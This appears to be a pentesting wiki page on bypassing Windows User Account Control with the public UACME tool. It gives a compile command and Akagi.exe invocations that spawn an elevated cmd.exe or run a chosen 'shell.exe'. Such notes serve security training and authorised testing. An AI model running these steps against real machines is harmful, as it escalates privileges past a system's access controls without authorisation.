 # UAC Bypass

{% hint style="danger" %}
To bypass the UAC, we need to be at least an administrator.
{% endhint %}

One of the most common methods is to use the [UACME](https://github.com/hfiref0x/UACME) project.

### Compilation

{% tabs %}
{% tab title="Visual Studio (Command Line)" %}
```
msbuild .\uacme.sln
```
{% endtab %}

{% tab title="Visual Studio (GUI)" %}
To compile it in Visual Studio, we need the `uacme.sln` file, which is in the **Source** folder.
{% endtab %}
{% endtabs %}

### Practice

We transfer the Akagi.exe binary, and then we can bypass the UAC in different ways. Read documentation.

{% hint style="info" %}
Path: UACME\Source\Akagi\output\x64\Debug\Akagi.exe
{% endhint %}

```shell
.\Akagi.exe <KEY> # cmd.exe by default
.\Akagi.exe <KEY> <PATH>\shell.exe # Execute binary
```
